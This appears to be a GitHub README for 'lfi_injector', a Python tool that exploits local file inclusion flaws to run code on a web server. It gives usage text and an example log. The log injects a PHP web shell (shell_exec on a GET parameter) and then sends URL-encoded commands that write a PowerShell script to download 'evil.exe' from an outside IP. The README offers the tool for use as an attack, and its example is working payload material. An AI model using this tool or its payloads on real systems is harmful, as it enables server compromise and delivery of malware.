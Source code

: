# lfi_injector

Reads code (or anything else) from a file, url encodes it, and makes a request for each line, so as to attempt to gain LFI code execution. Use of the `inject` parameter will precede the requests with the necessary php code (otherwise, this will need to be done manually)

Prerequisites: The system must be vulnerable to LFI and the appropriate susceptible URL must be used (do your research)

## Usage

```
usage: lfi_injector.py [-h] -f FILE -u URL -p PARAMETER [-v] {inject} ...

positional arguments:
  {inject}              inject -h for details

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  file with code to send
  -u URL, --url URL     full vulnerable url (minus injected parameter
  -p PARAMETER, --parameter PARAMETER
                        injected parameter (ex: cmd)
  -v, --verbose         v: increased detail; vv: even more detail
  ```
  
  ### inject
  
  ```
  usage: lfi_injector.py inject [-h] [--port PORT] target

positional arguments:
  target       target to inject parser

optional arguments:
  -h, --help   show this help message and exit
  --port PORT  port to inject (default: 80)
  ```
  
  ## Example
  
  ```
python .\lfi_injector.py -f testfile -u http://127.0.0.1:8997?name=shrek -p t3st -v inject 127.0.0.1 --port=8997
[+] inject php parameter parser enabled
[+] connecting to 127.0.0.1 on port 8997
[+] injecting: <?php echo shell_exec($_GET['t3st']);?>
[+] url: http://127.0.0.1:8997?name=shrek, parameter: t3st
[+] code read from file: testfile
[+] sending requests...
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24storageDir+%3D+%24pwd+%3E+wget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24webclient+%3D+New-Object+System.Net.WebClient+%3E%3Ewget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24url+%3D+%22http%3A%2F%2F10.11.0.5%2Fevil.exe%22+%3E%3Ewget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24file+%3D+%22new-exploit.exe%22+%3E%3Ewget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24webclient.DownloadFile%28%24url%2C%24file%29+%3E%3Ewget.ps1
[+] success!
[+] 100% successful transfer!
```

# TODO

Definitely still needs a little work, but wanted to give a placeholder for now...
